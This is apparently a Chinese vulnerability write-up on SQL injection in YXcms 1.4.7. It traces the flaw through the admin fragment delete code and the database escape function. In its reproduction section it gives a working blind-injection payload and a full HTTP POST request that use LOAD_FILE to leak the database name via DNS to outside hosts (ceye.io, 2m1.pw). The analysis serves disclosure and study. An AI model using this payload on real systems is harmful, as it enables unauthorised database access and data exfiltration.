 # YXcms 1.4.7 sql注入

### 一、漏洞简介

### 二、漏洞影响

YXcms 1.4.7

### 三、复现过程

漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行


```php
public function del()
{
    if(!$this->isPost()){
        $id=intval($_GET['id']);
        if(empty($id)) $this->error('您没有选择~');
        if(model('fragment')->delete("id='$id'"))
        echo 1;
        else echo '删除失败~';
    }else{
        if(empty($_POST['delid'])) $this->error('您没有选择~');
        $delid=implode(',',$_POST['delid']);
        if(model('fragment')->delete('id in ('.$delid.')'))
        $this->success('删除成功',url('fragment/index'));
    }
}
```

我们跟if(model('fragment')->delete("id='$id'")),它会先到protected/core.php文件里面的model


```php
function model($model){
    static $objArray = array();
    $className = $model . 'Model';
    if( !is_object($objArray[$className]) ){
        if( !class_exists($className) ) {
            throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
        }
        $objArray[$className] = new $className();
    }
    return $objArray[$className];
}
```

然后到protected/apps/admin/model/fragmentModel.php


```php
<?php
class fragmentModel extends baseModel{
    protected $table = 'fragment';
}
```

继续protected/base/model/baseModel.php


```php
<?php
class baseModel extends model{
     protected $prefix='';
     public function __construct( $database= 'DB',$force = false ){
        parent::__construct();
        $this->prefix=config('DB_PREFIX');
    }
}
```

再来到最底层的数据库操作类protected/base/model/model.php的第45行


```php
public function delete($condition){
return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
    }
```

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel


```php
static public function connect($config, $force=false){
        static $model = NULL;
        if( $force==true || empty($model) ){
            $model = new cpModel($config);
        }
        return $model;
    }
```

漏洞文件在protected/include/core/cpModel.class.php,


```php
public function delete() {
        $table = $this->options['table'];   //当前表
        $where = $this->_parseCondition();  //条件
        if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

        $this->sql = "DELETE FROM $table $where";
        $query = $this->db->execute($this->sql);
        return $this->db->affectedRows();
    }
```

这里用到了一个方法_parseCondition()


```php
private function _parseCondition() {
        $condition = $this->db->parseCondition($this->options);
        $this->options['where'] = '';
        $this->options['group'] = '';
        $this->options['having'] = '';
        $this->options['order'] = '';
        $this->options['limit'] = '';
        $this->options['field'] = '*';      
        return $condition;      
    }
}
```

这个函数是在protected/include/core/db/cpMysql.class.php的128行


```php
public function parseCondition($options) {
        $condition = "";
        if(!empty($options['where'])) {
            $condition = " WHERE ";
            if(is_string($options['where'])) {
                $condition .= $options['where'];
            } else if(is_array($options['where'])) {
                    foreach($options['where'] as $key => $value) {
                         $condition .= " `$key` = " . $this->escape($value) . " AND ";
                    }
                    $condition = substr($condition, 0,-4);  
            } else {
                $condition = "";
            }
        }

        if( !empty($options['group']) && is_string($options['group']) ) {
            $condition .= " GROUP BY " . $options['group'];
        }
        if( !empty($options['having']) && is_string($options['having']) ) {
            $condition .= " HAVING " .  $options['having'];
        }
        if( !empty($options['order']) && is_string($options['order']) ) {
            $condition .= " ORDER BY " .  $options['order'];
        }
        if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
            $condition .= " LIMIT " .  $options['limit'];
        }
        if( empty($condition) ) return "";
        return $condition;
    }
```

里面有一个行数来过滤escape,我们找到74行的这个函数定义


```php
public function escape($value) {
        if( isset($this->_readLink) ) {
            $link = $this->_readLink;
        } elseif( isset($this->_writeLink) ) {
            $link = $this->_writeLink;
        } else {
            $link = $this->_getReadLink();
        }

        if( is_array($value) ) { 
           return array_map(array($this, 'escape'), $value);
        } else {
           if( get_magic_quotes_gpc() ) {
               $value = stripslashes($value);
           } 
            return  "'" . mysql_real_escape_string($value, $link) . "'";
        }
    }
```

不过这个函数有一句is_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

#### 复现

这个盲注可以用http://ceye.io和python脚本跑


```
http://url/index.php?r=admin/fragment/index 
```

payload:


```bash
1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

- 点击删除
```

post包


```bash
POST /index.php?r=admin/fragment/del HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 188
Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
Connection: close
Upgrade-Insecure-Requests: 1
 
delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8
```

![](images/15896465673472.png)


然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![](images/15896465748823.png)


然后进入http://ceye.io/records/dns 查看我们的数据

![](images/15896465821712.png)
